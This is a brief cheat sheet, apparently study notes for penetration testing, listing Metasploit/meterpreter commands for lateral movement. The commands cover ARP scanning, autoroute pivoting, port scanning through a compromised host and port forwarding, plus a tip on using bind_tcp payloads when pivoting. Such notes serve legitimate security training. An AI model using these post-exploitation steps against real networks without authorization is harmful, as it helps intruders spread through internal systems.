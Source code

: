 ## Lateral Movement
* `meterpreter > ipconfig` - not the IP addresses the target has. Focus on the IP different than the external IP
* `meterpreter > run arp_scanner -r <internal-IP>/<subnet-mask>'
* `meterpreter > run autoroute -s <internal-IP>/<subnet-mask>`
* `meterpreter > background`
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `msf6 auxiliary(scanner/portscan/tcp) > set rhost <target>`

#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
  - `show options` - set rhosts
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
  - check that you are in meterpreter console (`sessions -i <session-number>`) 
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap <local_port>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 


## Privilege Escalation
